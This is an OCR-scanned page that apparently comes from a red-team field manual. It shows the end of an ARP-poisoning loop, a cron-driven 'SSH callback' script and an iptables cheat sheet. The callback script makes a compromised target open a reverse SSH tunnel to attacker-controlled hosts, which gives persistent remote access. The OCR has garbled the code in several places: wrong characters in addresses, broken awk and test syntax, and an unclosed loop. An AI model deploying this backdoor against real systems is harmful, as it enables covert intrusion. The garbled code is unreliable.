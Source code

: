 		arp -s 192.168.1.$i 00:00:00:00:00:Oa
	else
		echo "IP NOT BANNED: 192.l68.1.$i......."
		echo ".................................."
	fi
	i='expr $i +1'
done


### SSH CALLBACK

Set up script in crontab to callback every X minutes. Highly recommend you set up a generic user on red team computer (with no shell privs). Script will use the private key (located on callback source computer) to connect to a public key (on red team computer). Red teamer connects to target via a local SSH session (in the example below, use #ssh -p4040 localhost)

#!/bin/sh
# Callback script located on callback source computer (target)
killall ssh /dev/null 2&1
sleep 5
REMLIS=4040
REMUSR=user
HOSTS="domain1.com domain2.com domain3.com"
for LIVEHOST in $HOSTS;
do
COUNT=$(ping -c2 $LIVEHOST | grep 'received' | awk -F',' '{ print $2}' | awk '{ print $1 }'}
	if [{ $COUNT -gt 0 }]; then
ssh -R ${REMLIS}:localhost:22 -i
"/home/${REMUSR}/.ssh/id_rsa" -N ${LIVEHOST} -l ${REMUSR}
fi


# IPTABLES

*Use ip6tables for IPv6 rules	
iptables-save -c file                                                           Dump iptables (with counters) rules to stdout 
iptables-restore file                                                           Restore iptables rules 
iptables -L -v --line-numbers                                                   List all iptables rules with affected and line numbers 
iptables -F                                                                     Flush all iptables rules 
iptables -P INPUT/FORWARD/OUTPUT ACCEPT/REJECT/DROP                             Change default policy for rules that don't match rules 
iptables -A INPUT -i interface -m state --state RELATED,ESTABLISHED -j ACCEPT   Allow established connections on INPUT 
iptables -D INPUT 7                                                             Delete 7th inbound rule 
iptables -t raw -L -n                                                           Increase throughput by turning off statefulness 
iptables -P INPUT DROP                                                          Drop all packets

